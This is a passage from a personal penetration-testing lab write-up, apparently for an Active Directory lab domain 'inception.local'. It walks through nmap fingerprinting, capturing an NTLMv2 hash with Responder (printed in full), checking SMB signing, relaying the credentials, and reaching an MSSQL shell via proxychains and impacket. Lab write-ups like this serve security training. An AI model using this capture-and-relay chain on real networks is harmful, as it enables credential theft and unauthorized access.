SF:\x20\x20\x20\x20\x20\x20\x20}\);\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20</script>\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<
SF:/head>\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20<p>CSRF\x20check\x20failed\.\x20Your\x20form\x20sessi
SF:on\x20may\x20have\x20expired,\x20o");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): FreeBSD 11.X (88%)
OS CPE: cpe:/o:freebsd:freebsd:11.2
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: FreeBSD 11.2-RELEASE (88%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=6/27%OT=22%CT=%CU=%PV=Y%DS=1%DC=T%G=N%TM=667D64BF%P=x86_64-pc-linux-gnu)
SEQ(SP=103%GCD=3%ISR=109%TI=Z%II=RI%TS=21)
SEQ(SP=FE%GCD=1%ISR=10D%TI=Z%II=RI%TS=22)
OPS(O1=M551NW7ST11%O2=M551NW7ST11%O3=M551NW7NNT11%O4=M551NW7ST11%O5=M551NW7ST11%O6=M551ST11)
WIN(W1=FECC%W2=FECC%W3=FECC%W4=FECC%W5=FECC%W6=FECC)
ECN(R=Y%DF=Y%TG=40%W=FECC%O=M551NW7SLL%CC=Y%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)
```

And this exactly what I guessed!

Now we have some things to test:

- Default creds SSH/HTTP
- Robert.Lanza@inception.local if he can login via SSH.
- Any other user from Linux Administartor's group. Remeber the linux Admins devs like James.Weeks

&nbsp;

## EDIT

Here I was wrong, the OPNSENSE is outside the scope, I got another insider help to check for tokens to sniff and indeed I can get one now!

```
[+] Generic Options:
    Responder NIC              [tun1]
    Responder IP               [172.16.255.6]
    Responder IPv6             [fe80::a03a:e7ea:7828:c26b]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']

[+] Current Session Variables:
    Responder Machine Name     [WIN-HGX98YIZ9Y8]
    Responder Domain Name      [X3G8.LOCAL]
    Responder DCE-RPC Port     [45954]

[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.9.40.5
[SMB] NTLMv2-SSP Username : inception\svc_inventory
[SMB] NTLMv2-SSP Hash     : svc_inventory::inception:edb890ca97e50f74:0EB8C993E63455E7A43B817660A47F19:010100000000000000991753A7C8DA01044FAAE278D003C20000000002000800580033004700380001001E00570049004E002D0048004700580039003800590049005A0039005900380004003400570049004E002D0048004700580039003800590049005A003900590038002E0058003300470038002E004C004F00430041004C000300140058003300470038002E004C004F00430041004C000500140058003300470038002E004C004F00430041004C000700080000991753A7C8DA010600040002000000080030003000000000000000000000000020000031C2310596E9ACBE26BCC1513141DB5C6D069F25E2AB06CC75DE9044F5181C4A0A001000000000000000000000000000000000000900220063006900660073002F003100370032002E00310036002E003200350035002E0036000000000000000000
[*] Skipping previously captured hash for inception\svc_inventory
[*] Skipping previously captured hash for inception\svc_inventory
[*] Skipping previously captured hash for inception\svc_inventory
[*] Skipping previously captured hash for inception\svc_inventory
```

The problem is that the hash can't be cracked, so back on the drawing table seems like this account is part of the service accounts:  


&nbsp;

# NTLM Relay

Now since we can't crack the NTLM-v2 hash of svc_inventory I will try to relay it and dump the creds.

https://www.sikich.com/insight/using-multirelay-with-responder-for-penetration-testing/

We must first disable SMB/HTTP sniffing from the responder:



Next we let it sniffing on the tun1 interface(connected with the internal one):



And now I will take inspiration from this: https://swisskyrepo.github.io/InternalAllTheThings/active-directory/internal-mitm-relay/#ldap-signing-not-required-and-ldap-channel-binding-disabled

Seems like all of them have not SMB signing active?

```
┌──(root㉿kali-bello)-[/usr/share/responder/tools]
└─# python3 RunFinger.py -i 10.9.40.0/24
[SMB2]:['10.9.40.5', Os:'Windows 10/Server 2016/2019 (check build)', Build:'14393', Domain:'inception', Bootime: '2024-06-27 05:31:21', Signing:'False', RDP:'True', SMB1:'False', MSSQL:'False']
[SMB2]:['10.9.40.200', Os:'Windows 10/Server 2016/2019 (check build)', Build:'19041', Domain:'inception', Bootime: 'Unknown', Signing:'False', RDP:'True', SMB1:'False', MSSQL:'False']
[SMB2]:['10.9.40.12', Os:'Windows 10/Server 2016/2019 (check build)', Build:'14393', Domain:'inception', Bootime: '2024-06-27 05:34:12', Signing:'False', RDP:'True', SMB1:'False', MSSQL:'False']
[SMB2]:['10.9.40.201', Os:'Windows 10/Server 2016/2019 (check build)', Build:'19041', Domain:'inception', Bootime: 'Unknown', Signing:'False', RDP:'True', SMB1:'False', MSSQL:'True']
```

Now i don't think the attack is on the Domain .5 but either on the .12 or the .201. So i prepared my target list:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/inception.local]
└─# cat targets.txt 
all://10.9.40.5
all://10.9.40.12
all://10.9.40.201
```

&nbsp;

# Attempt #NR2

I had to change lab since it was broken and after another shot it worked flawlessly:



This is what we got so far!



Now we can use proxychains to get access to one of the accesses! And I guess MSSQL is the way to go?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# proxychains impacket-mssqlclient INCEPTION/SVC_INVENTORY@10.9.40.201 -windows-auth
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

Password:
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.9.40.201:1433  ...  OK
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: Inventory_Dev
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(INWKT002\SQLEXPRESS): Line 1: Changed database context to 'Inventory_Dev'.
[*] INFO(INWKT002\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (inception\svc_inventory  inception\svc_inventory@Inventory_Dev)>
```

Nice now we can move to the specific server instead!

&nbsp;

&nbsp;

&nbsp;